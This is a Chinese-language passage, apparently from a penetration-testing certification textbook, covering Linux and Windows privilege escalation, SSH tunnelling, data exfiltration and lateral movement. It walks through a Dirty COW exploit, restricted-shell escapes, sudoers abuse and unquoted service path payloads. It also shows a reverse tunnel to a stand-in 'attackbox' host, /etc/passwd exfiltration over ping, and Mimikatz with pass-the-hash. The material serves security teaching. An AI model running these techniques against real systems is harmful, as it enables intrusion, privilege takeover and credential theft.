> **注意** 内核是操作系统的核心和心脏。它管理计算机的所有操作，最重要的是中央处理器 (CPU) 功能、为软件分配和释放内存空间以及管理设备驱动程序。操作系统内核有两种类型：单内核（例如基于 Linux 和 UNIX 的操作系统）和微内核（例如 Windows 和 macOS）。在单内核中，进程托管在内核地址空间中（即特权模式），应用程序使用系统调用与内核通信；而在微内核中，内核被分解为托管在内核空间和用户空间（即较低特权）中的独立进程，进程可以使用进程间通信 (IPC) 消息相互通信。你可以通过搜索 [`docs.microsoft.com`](https://docs.microsoft.com) 或 [`www.kernel.org`](https://www.kernel.org) 了解更多关于这些内核类型的信息。

#### Linux 权限提升

在本书中，我们将重点介绍 Linux 操作系统中常见权限提升技术的概览。但请注意，除了我们在这里介绍的内容之外，还有许多技术可供使用。在本节中，我们将讨论内核级漏洞利用、`SUID` 和 `SGUID` 程序、`sudo` 的弱点以及粘滞位。

内核级漏洞利用提供了一种从用户提升到 root 权限的方法，并有助于完全控制主机。要研究操作系统的已知漏洞，你可以使用操作系统发行版详细信息和内核版本搜索与该操作系统相关的已知通用漏洞披露 (CVE)。或者，如果你使用带有 `Meterpreter` 载荷的 `Metasploit`，可以运行 `local_exploit_suggester` 后渗透模块，如 图 9-6 和 9-7 所示。本地漏洞利用建议器（简称 `lester`）将使用 `Metasploit` 中的本地漏洞利用检查扫描目标系统的漏洞。当框架中可能已经存在可用的权限提升漏洞利用时，这可以节省你手动进行研究和分析的时间和麻烦。


**图 9-6** 针对 Linux 的本地漏洞利用建议器


**图 9-7** 针对 Windows 的本地漏洞利用建议器


> **提示** 运行 `local_exploit_suggester` 模块时，建议启用 `SHOWDESCRIPTION=true` 选项。如果你不熟悉漏洞利用的实际功能，这将提供详细的漏洞利用描述。

##### Linux 内核级漏洞利用


###### 内核级漏洞利用示例：Dirty COW

一个内核级漏洞利用的示例是 2016 年披露的 Dirty COW 漏洞。Dirty COW (CVE-2016-5195) ([`dirtycow.ninja`](https://dirtycow.ninja)) 是 Linux 内核中的一个权限提升漏洞，它利用了内核内存子系统在处理私有只读内存映射的写时复制（COW）中断时存在的**竞争条件**。非特权本地用户可以利用此弱点获得对原本只读内存映射的写入权限，从而在操作系统中获得更高权限。这个特定的 Bug 自 2007 年以来一直存在，始于内核版本 2.6.22。让我们仔细看看该漏洞，并执行概念验证代码来演示利用过程。请跟随此练习，我们将针对本地主机利用 Dirty COW 漏洞将权限提升至 root。你需要一个易受 Dirty COW 攻击的合适的 Linux 操作系统。你可以通过在 CVE Details 网站上使用特定的 CVE 编号进行搜索，找到易受攻击的操作系统列表。我将使用 CentOS 6.4 ([`archive.kernel.org/centos-vault/6.4/isos/x86_64`](http://archive.kernel.org/centos-vault/6.4/isos/x86_64))。


> **注意**  
> 竞争条件是一种行为类型，其中输出依赖于其他不可控事件的序列或时序。当事件不按程序员预期的顺序发生时，它可能成为漏洞。

####### 1. 安装依赖包

在易受攻击的主机上，安装`wget`和`gcc`包以及必要的软件依赖，以便下载并编译适用于你特定架构的漏洞利用代码：

```
######## yum -y install wget gcc dos2unix
```

####### 2. 创建非特权用户账户

创建一个本地非特权用户账户来运行漏洞利用代码：


####### 3. 下载漏洞利用代码

对于此练习，我们将使用`PTRACE_POKEDATA`竞争条件权限提升（`/etc/passwd`方法）概念验证（POC）代码。此漏洞利用代码将自动在本地`/etc/passwd`文件中生成一个新的密码行。运行二进制文件时将提示用户输入新密码。原始`/etc/passwd`文件将备份到`/tmp`目录。以“user”账户登录本地操作系统，并从 Exploit Database 网站下载 Dirty COW 漏洞利用代码：


####### 4. 修改漏洞利用代码（可选）

该 POC 用 C 语言编写，将创建一个名为“firefart”的新特权用户账户。要更改此设置，你可以使用你喜欢的文本编辑器更新第 47 行和第 131 行以创建用户“newroot”：


或者，你可以使用流编辑器命令在源文件中查找并替换原始文本为“newroot”：

```
$ sed -i 's/firefart/newroot/g' dirtycow.c
```

####### 5. 编译漏洞利用代码

使用 GNU 编译器（`gcc`）为你的架构编译漏洞利用代码。`-pthread`标志将在程序中启用线程，`-lcrypt`将在密码文件中加密新用户的明文密码。有时 POC 代码会在源代码内包含编译器标志使用的说明，以协助你如何最好地编译可执行文件。如果编译成功，你将得到一个名为`dirtycow`的二进制可执行文件：

```
$ gcc -pthread dirtycow.c -o dirtycow -lcrypt
```

####### 6. 执行漏洞利用并提权

如果你在虚拟机中运行易受攻击的主机，现在是创建快照以防万一的好时机。执行`dirtycow`，并在提示时为新账户提供新密码。然后，尝试`su`切换到新账户以提升权限，如下所示。


一旦提升了权限，你可以查看`/etc/passwd`文件的内容，并看到新账户已被添加以替换原始的“root”账户。如果你看不到任何输出，按`ctrl-c`并检查新用户是否在文件中。之后，确保将`/tmp/passwd.bak`文件移回`/etc/passwd`以防止未来的本地认证错误。如果你确实遇到一些错误，可以随时恢复到最新快照并重试。


---

##### 查找 SUID/SGID 可执行文件

通常，当应用程序执行时，它在当前用户的上下文中运行，无论应用程序的所有权如何。有时在 Linux 或 macOS 中，应用程序需要在提升的上下文中（例如 root 权限）执行才能正常工作，但执行该程序的用户不需要提升的特权。可以使用`chmod 4777 [file]`、`chmod u+s [file]`或`chmod g+s [file]`将 setuid 和 setgid 位权限应用于操作系统上的文件，以便执行时，进程以拥有该文件的用户或组的特权运行。MITRE ATT&CK 矩阵中的 setuid 和 setgid 技术（ID: T1166）指出，具有已知漏洞或已知**Shell 逃逸**的应用程序不应应用特殊位，以减少应用程序被攻破时可能造成的损害。在第 3 章中，我们讨论了一个使用旧版本`nmap`中的 Shell 逃逸技术进行权限提升的示例，该版本提供了交互式 Shell 功能。要在 Linux/UNIX 主机上查找所有 setuid 可执行文件，可以在终端窗口执行以下命令语法：

```
find / -perm -u=s -type f -exec ls -al {} \; 2>/dev/null
```

这将遍历文件系统，从根分区开始，查找应用了 setuid 位且你的账户具有读取权限的文件。一旦找到文件，`-exec`选项将对每个返回的文件执行`ls -al`长列表格式。STDERR（标准错误）被丢弃并重定向到`/dev/null`。要查找应用了 setgid 位的文件，将`-u`标志（代表文件所有者）替换为`-g`标志（代表组所有者）。如果你只想打印由 root 拥有的 setuid 文件的路径，可以在命令语法中指定`-user root`选项：

```
find / -user root -perm -4000 -print 2>/dev/null
```

---

##### Sticky Bit 的用途

Sticky bit 是一个权限位，类似于 setuid 和 setgid 位，但它设置在目录上，仅允许目录内文件的所有者删除或重命名该文件。设置了 sticky bit 的目录示例是在 Linux 和 macOS 中的`/tmp`。在这里，任何用户都可以写入目录，但只有该用户有权删除文件。你可以按如下方式创建一个带有 sticky bit 的目录：


“test”目录中的“T”代替了“everyone”的执行权限位。“t”位允许所有人在目录内写入和执行。Sticky bit 有助于缓解恶意用户使用另一个受信任的用户账户删除目录内文件的可能性。

---

##### 利用 sudo 配置

Sudo 是类 UNIX 操作系统的一个程序，允许管理员将操作系统内的权限委派给较低权限的用户账户。`/etc/sudoers`文件是安全策略，指定用户可以以另一个用户身份执行哪些命令，这通常是一个具有更高权限的组账户或超级用户账户（即 root）。在某些情况下，拥有 sudo 权限的用户可能不需要提供密码即可在 sudo 下执行命令，如果具有 sudo 权限的账户被攻破，这在渗透测试期间可能会让事情变得更容易一些。让我们看看 Kali Linux 中的示例`/etc/sudoers`文件，如图 9-8 所示。


**图 9-8** 示例 sudoers 文件


第 20 行指定“root”用户可以针对操作系统运行所有命令。第 23 行指定“sudo”组（在`/etc/groups`中）中列出的任何用户在指定密码后被允许以 root 身份执行所有命令。如果我创建了一个名为“user1”的用户并将该用户添加到“sudo”组（`useradd -G sudo -s /bin/bash user1`），该用户将能够执行所有命令并被提示输入 sudo 密码，即 user1 账户密码。


**TIP**  编辑`/etc/sudoers`文件时，建议使用`visudo`命令以安全方式编辑文件。它将锁定 sudoers 文件以防止多次同时编辑，并提供基本的完整性检查，以及检查解析错误。

如果`/etc/sudoers`文件第 23 行有一行如下所示：

`user1 ALL=(ALL) NOPASSWD: ALL`

则该用户不会被提示输入密码。MITRE ATT&CK ID: T1169 引用了不需要 sudo 密码的不安全 sudo 配置。如果你攻破了一个拥有 sudo 权限且无需提供密码即可提升权限的账户，这种 sudo 配置在渗透测试中可能会有所帮助。例如，假设你攻破了一个名为“logger”的本地账户，该用户拥有执行脚本`/usr/local/move_logs.sh`的 sudo 权限，但该用户也拥有对该脚本的写权限。此时，渗透测试人员可以发挥创造性，向脚本追加一些 bash 代码以帮助提升权限，例如执行通过`msfvenom`生成的 Meterpreter 载荷，或者简单地在脚本末尾添加`/bin/bash –i`，以便在脚本执行后以 root 权限执行交互式 bash shell。然而，无论 sudo 是否配置为提示用户输入密码，“timestamp_timeout”配置设置都会跟踪 sudo 实例之间重新提示用户输入 sudo 密码的时间（以分钟为单位，默认为 15 分钟）。这是由于 sudo 能够缓存指定时间段的凭证，也称为 sudo 缓存。请参考 MITRE ATT&CK ID: T1206 以获取更多信息。sudo 缓存仅对执行 sudo 命令的终端会话有效；但是，如果你希望 sudo 跨越所有 TTY 会话（例如控制台登录、远程登录等），请运行以下命令：

`echo 'Defaults !tty_tickets' >> /etc/sudoers`

你可以通过以非特权用户身份打开终端窗口并执行`sudo /bin/bash`来测试新设置，在提示时输入密码，然后打开另一个终端窗口并执行`sudo cat /etc/shadow`，此时不应提示输入密码。使用不安全 sudo 配置的组织可能会造成危险情况，从而帮助攻击者进一步攻破本地主机。应要求特权用户指定 sudo 密码，并在适用的情况下禁用或限制 sudo 缓存。


**TIP**  如果你想强制用户每次执行 sudo 时都输入 sudo 密码，可以将以下行添加到 sudoers 文件中：`Defaults timestamp_timeout=0.`

##### 升级受限 Shell

阻碍攻击者的一种安全措施是受限 Shell。强制账户进入功能受限的 Shell 是断言最小权限原则的另一种方式。受限 Shell 可能限制可运行的命令、可访问的文件系统部分，甚至重新定义有效的运算符和转义字符。因此，当你攻破一个账户时，可能需要想办法逃离这些 Shell，以便获得更好的访问权限来追求目标。

如果`ls`可用，你可以尝试列出操作系统的常见部分，如`/usr/bin`，以查看你拥有哪些工具。如果不可用，你可以尝试使用`echo /usr/bin/*`来显示目录内容。然后许多 SUID/SGID 提权的概念可能适用。

如果编辑器和文件分页器可用，它们是常见的 Shell 提升机制。许多工具允许你逃逸到 Shell。例如，在`vi`和`vim`中，你可以发出命令`:!/bin/sh`或`:shell`从编辑器逃逸到 Shell。在分页器`less`中，命令将是`!/bin/sh`或你选择的任何 Shell。此 Shell 通常限制较少。

Linux 通常还安装有一种或多种编程语言，如 Python 或 Perl。如果可以访问这些语言，你可能可以编写一个快速脚本来获取 Shell。对于 Python，`import os; os.system("/bin/sh")`可能有效。在 Perl 中，你可以尝试类似`exec "/bin/sh";`的方法。

其他内置工具，如`awk`和`find`，当其他选项不可用时，可能帮助你逃出 Shell。如果你足够聪明，甚至可以使用`awk`生成反向 Shell。但你可以使用`awk 'BEGIN {system("/bin/sh")}'`尝试从受限 Shell 提升权限。使用`find`的等效命令将是`find / -name fakename -exec /bin/sh \;`

###### Windows 权限提升

除了获取凭证外，还有其他提升权限的方法。与 Linux 一样，方法多于我们在单章范围内所能涵盖的内容。在本节中，我们将重点介绍使用内核利用、令牌操纵、执行流劫持和进程注入的示例。

####### 内核利用

在本练习中，我们将探讨如何针对易受攻击的 Windows 2008 x64 SP2 服务器利用本地提权漏洞（CVE-2010-3338）。我们将从获取对系统的本地访问开始。然后我们将探讨如何查找并使用该漏洞利用代码以获得特权访问。

**使用 psexec 模块**  Metasploit Meterpreter shell 是与目标环境交互的有效方式，因为它完全在内存中运行，断开连接后几乎不留痕迹。当你拥有管理员权限时，要在 Windows 主机上获取 Meterpreter shell，可以使用`windows/smb/psexec`模块在管理员账户可写的开放共享上执行任意 Meterpreter 载荷（例如，回连到你的反向 shell，或你通过特定端口连接的绑定 shell）。如果被攻破的账户不是本地管理员组成员，或在域中没有提升的权限，你将无法使用`psexec`远程登录并与目标交互。

**使用 msfvenom 和 smbclient**  另一种选择是在 Kali 中使用`msfvenom`生成载荷，使用`smbclient`命令将载荷复制到目标，然后执行它以建立回连到你的 multi/handler 的 Meterpreter 会话。

**1.**  使用 Kali 中的`msfvenom`生成载荷：


**2.**  使用被攻破的用户凭证将载荷复制到目标：


**3.**  从目标控制台打开共享文件夹并双击载荷：


**4.**  使用配置为使用与`msfvenom`生成的相同 LHOST、LPORT 和载荷选项的 Metasploit multi/handler 模块捕获回连：


**使用 enum_patches 搜索缺失补丁**  在活动 Metasploit 会话上运行`windows/gather/enum_patches` Metasploit 模块（如图 9-9 所示）是搜索针对主机的本地提权漏洞的另一种方法。这是一个后利用模块，用于提供缺失的知识库（KB）文章（补丁）及其相关的 Microsoft 公告列表（如果适用）。


**图 9-9**  使用 Metasploit 枚举补丁


######## 使用 WMIC 搜索缺失补丁

与 `enum_patches` Metasploit 模块类似，Windows Management Instrumentation Command line (WMIC，Windows 管理规范命令行) 实用程序提供了一个命令行界面，用于与 Windows 操作系统进行交互。您可以从命令提示符使用 WMIC 实用程序来搜索目标操作系统上的补丁及其安装日期，如图 9-10 所示。从 WMI 查询返回的数据可以与从 Metasploit 枚举出的缺失补丁进行关联：


**图 9-10** 使用 WMIC 发现缺失补丁

```
c:\Users\user> wmic qfe get Caption,Description,HotFixID,InstalledOn
```


**提示** Windows Management Instrumentation (WMI，Windows 管理规范) 是 Windows 操作系统的一个组件，它促进了数据和操作的本地及远程管理。WMI 可用于通过 WMI 脚本或应用程序自动执行管理任务。您可以通过 <https://docs.microsoft.com> 网站了解更多信息。

######## 利用 schelevator

CVE-2010-3338 是一个本地权限提升漏洞，它允许易受攻击的 Windows 操作系统版本中的本地用户通过计划任务获取特权。在处理任务文件时，Windows 任务计划程序依赖 CRC-32 校验和来确保文件未被篡改。在默认的 Windows 配置中，本地用户可以读取和写入他们创建的任务文件。由于 CRC-32 不是加密算法，用户可以修改新的或现有的任务文件以创建潜在的哈希碰撞，并以 SYSTEM 特权执行任意命令。图 9-11 演示了此漏洞，使用 `windows/local/ms10_092_schelevator` Metasploit 模块针对 Windows 2008 x64 SP2 服务器上的用户 Meterpreter 会话。


**图 9-11** MS10_092 schelevator 漏洞利用

该漏洞利用模块将以用户账户创建初始任务（因为我们尚未拥有 SYSTEM 级访问权限），读取任务内容，将其转换为 Unicode 格式，然后记录 CRC-32 哈希值，以便在任务被修改后稍后分配。然后，漏洞利用将文件内容从 Unicode 转换回来，并更新任务文件中的 XML 标签以使用 SYSTEM 级特权运行载荷，因为该任务最初是使用用户级特权创建的。接着，漏洞利用将文件内容转换回 Unicode，修复 CRC-32 校验和，使任务与原始记录的哈希值匹配（CRC-32 碰撞），并使用任务计划程序执行该任务。该漏洞不在于用户可以创建任务，而在于用于验证任务未被篡改或以任何方式更改的受信任完整性机制（CRC-32 校验和）存在缺陷。用户账户不应能够修改任务内容以使其能够以更高特权运行。

####### DLL 搜索顺序劫持

Windows DLL 包含本机 Windows 应用程序正常运行所使用的代码和其他数据。当软件安装在 Windows 上时，该程序将包含一捆要安装到操作系统中的必需 DLL，并依赖操作系统提供的一些内置 DLL。当应用程序加载时，它将使用一种通用方法来查找所有必需的 DLL 以加载到程序中。DLL 不是使用完全限定路径（即 DLL 应驻留在操作系统上的位置）来调用的。因此，如果 DLL 不存在，或者以不安全的方式实现（例如具有弱权限的目录路径），且攻击者控制了 DLL 搜索路径上的目录之一，则可能通过强制应用程序加载并执行恶意 DLL 来提升权限。如果启用了 SafeDllSearchMode，程序搜索 DLL 时使用以下顺序：

1. 程序安装目录
2. Windows 系统目录 (`C:\Windows\System32`)
3. Windows 16 位系统目录 (`C:\Windows\System`)
4. Windows 目录 (`C:\Windows`)
5. 当前工作目录
6. 系统 PATH 环境变量中的目录
7. 用户 PATH 环境变量中的目录


为了帮助查找本地程序中的 DLL 搜索顺序劫持 (ATT&CK ID: T1038) 漏洞，您可以下载 Windows SysInternals 实用程序之一，称为 Process Monitor (<https://docs.microsoft.com/en-us/sysinternals>)。Process Monitor 应用程序 (`procmon`) 用于监控本地系统上运行的进程。您可以使用该工具实时调查具有缺失 DLL 文件的运行进程，如 <https://pentestlab.blog> 上发布的“DLL Hijacking”文章所示。要利用 DLL 劫持漏洞，首先检查 DLL 是否存在于磁盘上的任何其他搜索路径中。如果 DLL 不存在，您可以将恶意 DLL 副本放置在您拥有写入权限的目录的执行路径中（例如，使用 `msfvenom` 生成带有 Meterpreter reverse_tcp shell 载荷的 DLL）。当进程重启时，应加载该 DLL，并且恶意进程应以运行进程的特权执行载荷。如果 DLL 确实存在于磁盘上搜索路径中的其他位置，请查看是否可以写入优先级更高的位置（即安装目录）。使用 `procmon`，您可以应用特定过滤器，例如查找以 SYSTEM 级特权运行且缺少 DLL 文件的应用程序。


**考试提示** 您可能会在考试中看到基于场景的问题，询问您是否能确定在交互过程中哪些进程可能成为权限提升的目标，例如那些以 SYSTEM 级特权运行的进程。

####### 未加引号的服务路径

Windows 注册表负责记录在 Windows 操作系统上创建的服务的执行路径。管理员可以使用内置于 Windows 系统中的 `sc.exe` 命令实用程序创建新服务。图 9-12 提供了一个示例，展示如何使用 `sc.exe` 命令创建一个名为 "vulnerablesvc" 的服务，该服务指向 "shared commands" 文件夹中的 `vulnerable.exe` 可执行文件。


**图 9-12** 创建服务 `vulnerablesvc`

当在本地操作系统上创建新服务时，将在注册表中创建一个唯一键。这些键位于以下 Windows 注册表位置：`HKLM\SYSTEM\CurrentControlSet\services`，如图 9-13 所示。


**图 9-13** 注册表中的未加引号服务路径

低权限用户将无法修改服务；但是，用户仍然可以搜索服务。我们可以使用 `wmic` 命令查找具有未加引号可执行路径的服务。图 9-14 显示 `vulnerablesvc` 的显示名称为 `UnquotedServicePath`，这可能是一个可能的权限提升攻击目标。


**图 9-14** 使用 `wmic` 命令搜索未加引号的服务路径。


使用管理员特权创建的服务将作为 SYSTEM 账户运行，除非配置为使用不同的服务账户或用户名/密码组合。当 Windows 尝试运行该服务时，它将使用以下路径来运行它能找到的第一个可执行文件：

1. `C:\Program.exe`
2. `C:\Program Files.exe`
3. `C:\Program Files (x86)\Shared.exe`
4. `C:\Program Files (x86)\Shared Services\shared.exe`
5. `C:\Program Files (x86)\Shared Services\shared commands\vulnerable.exe`


如果我们在最终执行路径之前对这些文件夹中的任何一个具有写入权限，我们可以将自己的恶意可执行文件添加到服务路径中，强制我们的程序加载，而不是原始的程序可执行文件。该漏洞是 Windows 操作系统中`CreateProcess`函数的结果，如[`docs.microsoft.com`](https://docs.microsoft.com)网站所述。现在，我们可以使用`icacls`命令查看我们是否对 Shared Services 文件夹具有写入权限。图 9-15 显示我们对该文件夹拥有完全权限。


**图 9-15** 检查文件夹权限。


**提示** 另一个可用于检查特定用户或组对文件、目录、注册表项、全局对象和 Windows 服务权限的工具是 Windows Sysinternals 命令`accesschk.exe`。您可以从[`docs.microsoft.com/en-us/sysinternals`](https://docs.microsoft.com/en-us/sysinternals)网站找到更多信息。

我们只需要生成一个有效载荷以便获取具有系统权限的回调。您可以使用`msfvenom`生成一个名为`shared.exe`的`meterpreter_reverse_tcp`有效载荷，然后将该可执行文件放入`C:\Program Files (x86)\Shared Services`文件夹，如图 9-16 所示，因为用户具有写入权限。


**图 9-16** 存储在 Shared Services 文件夹中的有效载荷


一旦有效载荷被复制过去，您需要配置`multi/handler`，以便在服务启动或重启后捕获 SYSTEM 级别的 Shell，如图 9-17 所示。


**图 9-17** 启动 multi/handler

现在一切似乎都已就绪，您只需要重启或启动此服务（如果尚未启动）。然而，权限较低的账户或没有启动易受攻击服务权限的账户，如果尝试启动服务，将收到“拒绝访问”错误，如图 9-18 所示。


**图 9-18** 在任务管理器中尝试启动服务失败

另一种方法是重启系统、等待下一次重启，或通过社会工程学手段诱使管理员重启服务，除非您极具说服力和可信度，否则这不太可能成功。一旦服务启动，它将读取服务路径第 4 个选项中的`shared.exe`可执行文件并执行它，而不是原本的`vulnerable.exe`应用程序。图 9-19 显示服务回连并给了我一个具有 SYSTEM 级别权限的 Shell。


**图 9-19** 获取 SYSTEM 权限

最终，目标上的服务将超时。在此之前（大约少于 20 秒），您需要迁移到另一个进程，如图 9-20 所示。本章前面提到过，`wininit.exe`进程是一个可选的迁移目标。一旦迁移，您的 Shell 将变得稳定，但原始进程将在服务报错后终止。如果您在 Meterpreter Shell 中运行`post/windows/manage/migrate`模块而不指定要迁移的进程，该模块将自动生成一个新进程并迁移到该进程。简而言之，未加引号的服务路径是一种可能潜伏在操作系统中的漏洞，等待被利用。当管理员将进程和应用程序与低权限用户账户混合使用时，可能会导致我们刚才讨论的情况，从而酿成灾难。


**图 9-20** 使用 Metasploit 迁移进程

为了缓解此类漏洞，MITRE ATT&CK 页面建议组织通过在适用的地方用引号括起路径变量，消除程序配置文件、脚本、PATH 环境变量、服务和快捷方式中的路径拦截弱点。管理员了解 Windows 用于执行或加载二进制文件的搜索顺序也很重要，并且应在卸载软件应用程序后清理旧的注册表项，以消除注册表项未与合法二进制文件关联的问题。在某些情况下，可能会滥用作为 SYSTEM 或提升权限运行的可写服务。这是由于管理员为服务设置了不正确的权限，或者用户账户在二进制文件执行所在的目录中拥有提升的权限。注册表中的本地服务配置信息可能会被修改，以更改二进制可执行文件路径并指向恶意程序。您可以从 MITRE ATT&CK 网站了解更多关于服务注册表权限弱点（ID: T1058）的信息。

#### 隐蔽通道与数据渗出

渗出是将数据从您已攻陷的环境中移出的过程。您可以通过任何通信通道渗出数据，包括 HTTP、HTTPS，或使用防火墙和代理允许的任何其他端口或协议。从系统中获取数据最流行的方式是通过已建立的命令与控制通道（如隧道）。SSH 是一种流行的隧道协议，但让我们谈谈 Shell 和渗出是如何工作的。

##### SSH 隧道

SSH 隧道用于将应用程序端口从 SSH 客户端转发到 SSH 服务器。这是一种安全传输文件和连接到内部网络服务（如 NFS 或 HTTP/S）的有用方法，这些服务监听在不可路由的网络上。我们将介绍可使用的 SSH 隧道类型，并讨论如何结合使用 Proxychains。

一些目标位于使用***网络地址转换*** (NAT) 将私有网络（不可路由网络）从面向公众的网络（即互联网）中隐藏起来的防火墙后面。SSH 远程转发（即`-R` SSH 命令标志）是一种可用于从防火墙内的主机建立反向隧道到防火墙外主机的技术，如图 9-21 所示。反向隧道意味着让目标回连您。例如，假设位于 NAT 防火墙后的目标 IPv4 地址是 192.168.1.50（SSH 客户端），而您的攻击机（SSH 服务器）位于互联网上，拥有公网 IPv4 地址。


**图 9-21** SSH 反向隧道

您可以使用`ssh`命令从客户端远程连接到源（我们将使用一个示例完全合格域名[FQDN]），使用以下命令：

示例：

```
ssh -f -N -T -R 2222:localhost:22 attackbox.example.com
```

选项：

*   **`-f`** 认证后将 SSH 进程置于后台
*   **`-N`** 告诉 SSH 您想要连接但不运行任何命令
*   **`-T`** 禁用伪 TTY 分配，因为您不打算创建远程 Shell

这将告诉防火墙内的客户端与`attackbox.example.com`建立一个远程出口点。从`attackbox.example.com`对 2222/tcp 端口建立的任何连接，实际上都将通过 SSH 反向隧道到达防火墙内的客户端。要通过远程出口点进行 SSH 连接，只需将`attack.example.com`服务器上的`ssh`命令指向本地主机的 2222/tcp 端口。

示例：

```
ssh localhost -p 2222
```

选项：

*   **`-p`** 用于隧道回连内部 SSH 客户端的远程出口端口


**提示** 如果您想启用应用程序从服务器回 SSH 客户端的 X11 转发，可以使用`-X`选项。例如，如果您想使用服务器的 Firefox 应用程序连接到它所知道的本地网络上的基于 Web 的主机，可以在 SSH 连接期间启用 X11 转发。


###### 本地转发

本地转发（即 SSH 命令标志 `-L`）允许将 SSH 客户端的一个 TCP 端口转发到 SSH 服务器。这有助于保护未加密的协议，或访问仅在本地网络内可用的服务，例如 NFS、HTTP 和 MySQL Oracle。如果你攻破了防火墙后面的一台主机，并想访问一个仅允许内部 IPv4 地址连接的 Apache Web 服务器，你可以从被攻陷的主机（SSH 客户端）到你的攻击机（SSH 服务器）建立一条本地转发隧道。认证成功后，你可以从 `attack.example.org` 主机浏览 `http://www.internal.web.org:8080`，你的连接将通过 SSH 转发隧道（即 8080/tcp 端口）连接到内部 Web 服务器。

示例：

```
ssh -L 8080:www.internal.web.org:80 attackbox.example.org
```

###### 动态端口转发

动态端口转发（`ssh` 命令标志 `-D`）是指你从攻击主机（SSH 客户端）连接到目标（SSH 服务器），并将你的主机变成一台 SOCKS 代理服务器：

```
ssh -D 9050 www.external.host.org
```

这将允许你配置 Web 浏览器通过 SOCKS（即 SOCKS4 或 SOCKS5）代理连接来浏览网页，并允许你使用 SOCKS 代理从网络外部对内部主机执行端口扫描。`Proxychains` 是一个预装在 Kali Linux 中的命令行工具，它允许你强制应用程序（例如 `nmap`）通过 SOCKS 连接发送请求，如 图 9-22 所示。


**图 9-22** 通过 Proxychains 进行 Nmap 端口扫描


**提示** 如果你试图让攻击方法更加隐蔽，SOCKS5 和 SOCKS4 代理的区别之一在于：SOCKS5 可以支持 TCP 和 UDP 应用程序，并通过 SOCKS 隧道提供 DNS 解析；而 SOCKS4 仍将使用本地主机的 DNS 配置。

##### Shell 类型

SSH 很可能不是你用来建立到目标 Shell 连接的唯一协议。你可能也会使用 TCP、HTTP 或其他协议。你可能会使用 SSH 客户端，也可能会使用 Metasploit 或其他攻击工具中的 Shell。例如在 Metasploit 中，你可能需要为你的载荷选择 Shell 类型。绑定 Shell 会让目标监听等待你连接它。反向 Shell 会让目标主动连接回你。如果你和客户端之间存在防火墙，当防火墙允许目标向你发起协议连接，但不允许反向连接时，这非常有用。

##### 命令与控制

在攻击期间远程操控被攻陷系统的概念可称为命令与控制（C2）。你通过建立的通信通道控制目标并向其发送命令。你可以选择环境中常用的协议（如 HTTPS）以穿透防火墙并避免被检测。你可能希望采用隐藏此类流量的方法，例如对其加密并伪装其频率、大小或其他识别特征，使其融入正常流量中。这些建立的通道常用于执行后渗透活动，包括数据渗出。

##### 数据渗出

数据防泄漏控制通常会寻找敏感数据，以防止其被移出环境。渗透测试人员可能需要在尝试移动数据前对其进行打包（例如使用加密的 zip 压缩包），或将数据分割成较小的块再传输，以规避这些控制。使用替代协议是另一种将数据带出环境的隐蔽手段。下面是在 Linux 中使用 `ping` 命令将 `/etc/passwd` 文件发送到另一台主机的命令示例：


该命令打印 `/etc/passwd` 文件的内容并通过管道传递给 `xxd` 命令，后者从文件创建十六进制转储。`-c` 参数指定以两列输出值，实际上使其变为每行 2 字节。然后将输出通过管道传递给 `xargs`，后者读取输出（以空格分隔），并为接收到的每个 2 字节参数执行针对主机 `10.10.150.6` 的 `ping` 命令。所用的 `ping` 命令发送单个回显请求数据包，生存时间为 10，使用来自 `xargs` 的模式。完成后，它再次 ping 目标，但这次发送的数据包大小为 55（比默认值小 1）。这基本上向监听服务发出了文件结束的信号。一旦 `10.10.150.6` 接收到这些请求，脚本即可组装并解码接收到的字节，数据便成功渗出。

#### 横向移动

在目标主机上获得远程 Shell 后，你可以利用横向移动技术通过网络访问和控制远程系统，有时无需在目标环境中安装额外的工具或服务。通常，这涉及滥用远程服务中的弱点，或按其正常用途使用那些为远程管理、远程访问或数据共享而设计的服务。当然，也可以通过内部钓鱼等方式获取对其他资产的访问权限。但我们将重点关注渗透测试人员可能用来通过“利用现有工具”保持隐蔽的技术，以及涉及横向文件传递和哈希传递的技术。

##### 利用现有工具

利用现有工具（LOL）是指使用系统上已存在的工具来进行利用，从而避免被检测到。简单的例子包括在 Linux 上使用 SSH 或在 Windows 上使用远程桌面协议。这种方法有两个优点。第一个原因是这使得更容易融入正常的系统活动中。单凭这一点就讲得通。第二个原因，也是 LOL 的真正精髓，在于永远不必将工具写入磁盘。你看，当你运行许多攻击工具（如 Metasploit）时，它们会留下文件，测试完成后可能需要清理。更重要的是，每次你传输工具或向磁盘写入内容时，都给了安全软件检测它的机会。因此，你可能也会听到将不写入磁盘的技术称为“无文件恶意软件”。

################ PowerShell

PowerShell 可能是对渗透测试人员最有用的原生 Windows 工具的最著名例子。我们已经讨论过基于 PowerShell 的利用工具。然而，这些工具通常依赖 Windows 中不原生存在的模块。你仍然需要下载工具才能使用它们。如果你想改用 PowerShell 远程运行它，而从未接触过磁盘，该怎么办？

从我们基于 Windows 的攻击机器上，我们可以搭建一个 Web 服务器来托管 Empire 的 `Invoke-Mimikatz` 脚本副本。然后我们可以从攻击主机在目标（`10.10.150.6`）上打开一个远程 PowerShell 会话：

```
Enter-PSSession -ComputerName 10.10.150.6 -Credential $credentials
```

然后我们可以使用以下 PowerShell 命令远程加载 Mimikatz 脚本并在内存中运行它：


###### WMIC

同样，我们也可以使用 WMIC 来实现。为了方便，首先让我们使用 base64 对要运行的命令（`Invoke-Command` 字符串）进行编码。然后，我们可以从 Windows 运行 `wmic`，以 PowerShell 为目标攻击远程主机。


###### Netsh

我们讨论了 SSH 隧道，但如果未安装 SSH 怎么办？Netcat 也未安装。`Netsh` 是 Windows 的内置实用程序，允许你修改系统的网络连接。如果安装了 IPv6，我们可以将端口 443 上的外部流量重定向到 RDP，以便通过代理进行 RDP 连接：


##### 哈希传递


###### 传递哈希攻击

传递哈希（PtH）风格的攻击可以通过使用与 Windows 本地/域账户关联的 NTLM 哈希值，通过网络向另一台远程主机进行身份验证来实现。MITRE ATT&CK 矩阵将此技术标识为一种绕过需要明文密码的标准身份验证步骤的方法（ID：T1075）。这在渗透测试过程中有助于节省时间和精力，因为你不需要破解哈希——只需绕过它即可。当使用特权用户账户时，PsExec SysInternals 命令可以帮助促成此类连接。所有相同的理论和限制均适用于 PsExec，只是你将使用哈希值代替密码。图 9-23 展示了使用 `psexec` Metasploit 模块进行 PtH 的示例。


**图 9-23** 传递哈希


